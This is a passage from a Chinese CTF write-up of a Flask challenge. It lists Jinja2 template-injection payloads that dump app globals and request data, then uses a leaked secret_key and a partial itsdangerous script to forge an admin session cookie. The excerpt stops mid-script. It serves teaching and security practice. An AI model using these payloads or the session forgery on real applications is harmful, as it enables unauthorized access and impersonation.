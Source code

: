 那我们测试一些网上常用的 payload 来搜集信息：

```
{{app.__init__.__globals__.sys.modules.app.app.__dict__}}
{{request.__dict__}}
{{self.__dict__}}
{{request.environ}}
{{namespace.__dict__}}
{{app.__init__.__globals__}}
```

起初我是想利用模板注入得到 shell，但是调研了一下在不使用 ( ) 条件下挺难的，有没有发现其他用户添加的函数。后来仔细考虑题目主页有句话：

![1538232368415](https://saferman.github.io/assets/img/thuctf2018/index_flask.png)

然后调研了一下会不会与 session 有关，发现果然是的，而且虽然前面的模板注入无法 GetShell，但是通过比对得到信息和本地最基本的 Flask 模板注入得到的信息差异发现有个 secret_key 参数！

然后我们看看下面代码，就是一个典型的利用 session 验证的 Flask 程序：

```python
#encoding:utf-8
from flask import Flask, session, escape, request

app = Flask(__name__)
app.secret_key = '!955)aa1~2.7e2ad'

@app.route("/")
def index():
    session['username'] = 'admin'
    return 'hello, {}\n'.format(escape(session['username']))

# 下面是二个示例 session，格式：信息 . 时间戳 . 签名
# eyJ1c2VybmFtZSI6eyIgYiI6IllXUnRhVzQ9In19.DoapPw.A3ncoLOkI0bwCXPE6f5GdDNVi3M
# eyJ1c2VybmFtZSI6eyIgYiI6IllXUnRhVzQ9In19.DoaquA.a5UttuPGlFJ8 tUGdLrXiY28T4TI
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```

在 Flask session 安全中，最危险的就是 secret_key 泄露，这个可以导致签名任意信息伪造！更多的技术细节可以 google 学习。

所以本题我们的目标就是利用 泄露的 secret_key 伪造成 admin 身份，我们先对信息部分 base64 解密，注意如果开头有个 . 说明惊醒了 zlib.compress 需要使用 decompress 处理。最后我们使用下面 forge_flask_session.py 伪造身份！（注意信息的原文是 utf-8 还是 unicode 编码对 之后编码、加密过的 session 有影响，本体是需要 unicode 字符信息）

```python
#!/usr/bin/env python3
# encoding: utf-8

from hashlib import sha1
from flask.sessions import session_json_serializer
from itsdangerous import URLSafeTimedSerializer, BadTimeSignature
import base64
import zlib
from cuteprint.cuteprint import PrettyPrinter

PAYLOAD = {u'username': u'admin'}

p = PrettyPrinter()

signer = URLSafeTimedSerializer(
    '!955)aa1~2.7e2ad', salt='cookie-session',
    serializer=session_json_serializer,
    signer_kwargs={'key_derivation': 'hmac', 'digest_method': sha1}
)

def forgeSession():
    gen_payload = signer.dumps(PAYLOAD)
```